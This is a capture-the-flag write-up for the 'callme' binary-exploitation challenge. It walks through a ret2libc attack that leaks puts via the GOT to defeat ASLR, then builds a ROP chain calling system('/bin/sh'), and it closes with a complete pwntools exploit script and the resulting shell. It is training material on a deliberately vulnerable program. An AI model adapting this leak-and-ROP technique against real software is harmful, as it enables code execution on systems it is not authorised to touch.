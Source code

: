 # callme Alternative Solution

There are no `system()` calls nor any `/bin/sh` strings in the application,
however we can find them at runtime, once `libc` has been loaded.

```
gdb ./callme
start

find "/bin/sh"
# Searching for '/bin/sh' in: None ranges
# Found 1 results, display max 1 items:
# libc : 0x7fa3151ee5bd --> 0x68732f6e69622f ('/bin/sh')

p *system
# $1 = {int (const char *)} 0x7fa31508c290 <__libc_system>
```

GDB disables ASLR per default, to enable it run `set disable-randomization off`.

In our exploit we can't depend on the addresses reported by GDB above, since
they are usually randomized every time the program is run.

But using `puts` or `printf`, we can print out the address of a known libc
function and then use that to calculate the base address at which libc is
loaded.

```python
payload = offset + p64(pop_rdi) + p64(puts_got) + p64(puts_plt) + p64(main)
```

We read the offset of `puts` from the global offset table (GOT):

```sh
readelf --relocs callme
#   Offset          Info           Type           Sym. Value    Sym. Name + Addend
# 000000601018  000100000007 R_X86_64_JUMP_SLO 0000000000000000 puts@GLIBC_2.2.5 + 0
```

Then we pass this as the argument to a `puts` call, which will dereference it
and print out the actual address of the `puts` function.

By knowing the correct version of libc in use we can simply subtract the offset
(where in libc the function is located) from the leaked address (where in
memory it is loaded) to obtain the address where libc starts in our processes
memory.

```python
libc.address = leaked_addr - libc.symbols["puts"] # calculate libc base: base = current_process_puts - offset_of_puts_from_base
```

Finally, we can do our search for the `/bin/sh` string and the `system()`
function.

```python
bin_sh = next(libc.search(b"/bin/sh"))
system = libc.sym["system"]

payload = offset + p64(pop_rdi) + p64(bin_sh) + p64(system)
```

However, the application crashes in `do_system()`, at a `movaps` instruction.
As we've learned in the previous challenges, a simple fix is to include
another `ret` instruction.

```
payload = offset + p64(pop_rdi) + p64(bin_sh) + p64(ret) + p64(system)
```

Finally, we get a shell:

```
python3 exploit.py
# ... SNIP ...
[*] Switching to interactive mode
$ whoami
testikus
$ ls
callme    exploit.py        key2.dat  payload.txt
```

## Full Exploit Script

```python
#!/usr/bin/env python3
from pwn import *
context.bits = 64
context.arch = 'x86_64'

process_name = "./callme"
elf = ELF(process_name)
rop = ROP(elf)
libc = ELF("/lib/x86_64-linux-gnu/libc.so.6")

offset = b'A'*40
pop_rdi = 0x004009a3  # pop rdi; ret gadget
puts_got = 0x00601018 # puts@got
puts_plt = 0x004006d0 # puts@plt
#leave = 0x004008f0    # leave; ret gadget
ret = 0x004008f1      # ret gadget
main = 0x00400847     # main procedure

#p = process(process_name)
p = gdb.debug(process_name, '''
b *pwnme+89
''')

payload = offset + p64(pop_rdi) + p64(puts_got) + p64(puts_plt) + p64(main)
print(p.recvuntil("> "))
print(p.clean())
p.sendline(payload)
leaked_string = p.recvuntil("\ncallme")
received = leaked_string.replace(b"Thank you!\n", b"")
received = received.replace(b"\ncallme", b"")
leaked_addr = u64(received.ljust(8, b"\x00"))
print("--- leak BEGIN ---")
print(hex(leaked_addr))
print("--- leak END ---")
print("libc.symbols puts")
print(hex(libc.symbols["puts"]))
libc.address = leaked_addr - libc.symbols["puts"] # calculate libc base: base = current_process_puts - offset_of_puts_from_base
print("libc base @ %s" % hex(libc.address))

bin_sh = next(libc.search(b"/bin/sh"))
system = libc.sym["system"]

# do_system uses the movaps instruction, which will fail on an unaligned stack.
# To realign the stack we include an additional ret in our rop-chain.
payload = offset + p64(pop_rdi) + p64(bin_sh) + p64(ret) + p64(system)

print(p.clean())
p.sendline(payload)
print(p.clean())
p.interactive()

# with open("payload.txt", "wb") as f:
#     f.write(payload)

#p = process("./callme")
#p.send(payload)
#p.interactive()
```

I created most of this with some help from this great
[blog](https://pollevanhoof.be/nuggets/buffer_overflow_linux/3_aslr_ret2libc).

Note that in the linked article it is mentioned:

> We can now run our script inside a small bash loop and after a couple of
> crashes it should pop us a shell:
> `while ! ./exploit_ret2libc.py; do clear; done`

The reason why the program crashes sometimes instead of spawning a shell
seems to be caused by this line:

```python
recieved = leaked_string.replace(b"overflow me:", b"").strip()
```

Note the `strip()` at the end, `leaked_string` contains the `printf`/`puts`
address.
If that address ends (or starts) in a `0x20` this will be removed by the
`strip` call, since `0x20` also happens to be ASCII (space).

